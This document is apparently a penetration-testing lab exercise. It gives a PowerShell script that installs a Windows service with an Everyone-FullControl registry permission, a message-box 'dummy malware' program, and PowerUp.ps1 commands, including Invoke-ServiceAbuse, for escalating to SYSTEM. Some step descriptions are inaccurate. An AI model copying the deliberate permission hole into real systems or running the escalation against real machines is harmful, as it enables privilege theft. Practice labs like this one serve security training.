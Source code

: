 # Write A PS Script That Installs An Insecure Windows Service
An insecure Windows service is one that can be easily exploited by a Penetration Tester. These services often lack proper security protections and can be compromised through vulnerabilities in the code or weak passwords.

## References
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by HarmJ0y
- [How to Set Permission on a Service Using Subinacl](http://www.waynezim.com/2010/02/how-to-set-permission-on-a-service-using-subinacl/) by Wayne Zimmerman
- [Privilege Escalation with Insecure Windows Service Permissions](https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107) by Nairuz Abulhul on Medium
- [Digging Deeper into Vulnerable Windows Services](https://www.blackhillsinfosec.com/digging-deeper-vulnerable-windows-services/) by Brian Fehrman on BlackHillsInfoSec
- [Windows Privilege Escalation](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/infrastructure/privesc_windows.md#Insecure-Service-Executables) by 0xJs on GitHub

## Tasks
- Research how to set up a Windows service with insecure configurations, such as weak permissions or allowing modifications by EVERYONE
- Create a PowerShell script that automates the creation of the insecure Windows service, incorporating the vulnerable configurations identified in the research
- Execute your PowerShell script to install the insecure Windows service on the target system
- Use PowerUp.ps1 to exploit the insecure Windows service that your script installed

## Recommended Approach
- Search the following keywords on Google: vulnerable windows service binpath
- Research how to modify the permissions of a Windows Service using SUBINACL.exe
- Research how to create a new Windows Service using sc.exe
- Create a vulnerable Windows Service that any user, regardless of their permission levels, can modify
- Use PowerUp.ps1 to exploit the vulnerable Windows Service and obtain unauthorised SYSTEM privileges on the machine

## Solutions With Scripts
1. Create a dummy malware executable, save the following C++ code as `dummymalware.cpp` and compile it into an executable using compilers like Dev-C++
   ```
   #include <windows.h>
   
   int main()
   {
       MessageBox(NULL, "I'm a Dummy Malware", "Alert", MB_OK | MB_ICONEXCLAMATION);
       return 0;
   }
   ```
2. Save the following PowerShell script as `insecureservice.ps1`. It will create a service called `InsecureService` that runs `dummymalware.exe`, and modifies service permissions so Everyone can modify the service, making it insecure
   ```
   # Define service variables
   $serviceName = "InsecureService"
   $serviceDisplayName = "Insecure Windows Service"
   $serviceDescription = "A vulnerable service with insecure permissions."
   $servicePath = "C:\Windows\System32\dummymalware.exe"  # You can specify any executable
   $serviceStartMode = "Automatic"
   
   # Step 1: Create the service
   New-Service -Name $serviceName -BinaryPathName $servicePath -DisplayName $serviceDisplayName -Description $serviceDescription -StartupType $serviceStartMode
   
   # Step 2: Modify registry permissions to make it insecure
   $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"
   $rule = New-Object System.Security.AccessControl.RegistryAccessRule("Everyone", "FullControl", "Allow")
   $acl.SetAccessRule($rule)
   Set-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName" $acl
   
   Write-Host "$serviceName has been created with insecure permissions!"
   ```
3. Open PowerShell as Administrator, run `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then navigate to the folder where insecure service is stored and run `.\insecureservice.ps1`
4. To identify the insecure service with PowerUp.ps1, open PowerShell as Administrator, navigate to where PowerUp.ps1 is stored and run `Import-Module .\PowerUp.ps1`.
   To check for services with weak permissions, run
   ```
   Get-ServiceUnquoted
   ```
   To check for services with writable executables, run
   ```
   Get-ModifiableServiceFile
   ```
   To check for service permissions, run
   ```
   Get-ServiceDetail -Name "InsecureService"
   ```
5. To exploit the insecure service with PowerUp.ps1, run
   ```
   Invoke-ServiceAbuse -Name "InsecureService" -Command "C:\Windows\System32\dummymalware.exe"
   ```
6. To delete the insecure service in PowerShell, use
   ```
   sc.exe delete InsecureService
   ```
7. 
